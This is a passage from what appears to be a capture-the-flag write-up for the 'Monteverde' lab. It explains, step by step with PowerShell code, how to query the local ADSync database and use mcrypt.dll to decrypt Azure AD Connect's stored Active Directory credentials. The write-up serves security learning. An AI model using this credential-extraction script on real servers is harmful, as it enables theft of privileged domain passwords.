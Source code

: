 *After modyfing the connection string,* we get no errors when opening the connection. Seems promising! :)

![correct-conn-string](/assets/Monteverde/correct-conn-string.jpg)

### Enough Troubleshooting. Let me see some creds!
*After modifying the connection string,* let's go over what the script does in brief:

1. Defining the connection string: we're connecting to the **ADSync DB** on the **local computer** using **Windows Authentication**

```
$connection_string = "Data Source=localhost;Initial Catalog=ADSync;Integrated Security=true;"
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList $connection_string
$client.Open()
$cmd = $client.CreateCommand()
```

2. Querying for the important bits to do the decryption: `keyset_id`, `instance_id` and `entropy` from the `mms_server_configuration` table

```
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()
```

3. Obtaining the configuration items: `private_configuration_xml` and `encrypted_configuration` from the `mms_management_agent` table

```
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()
```

4. Loading the `mcrypt.dll` into memory and carrying out the decryption using the keys extracted from **Step #1**

```
add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
```
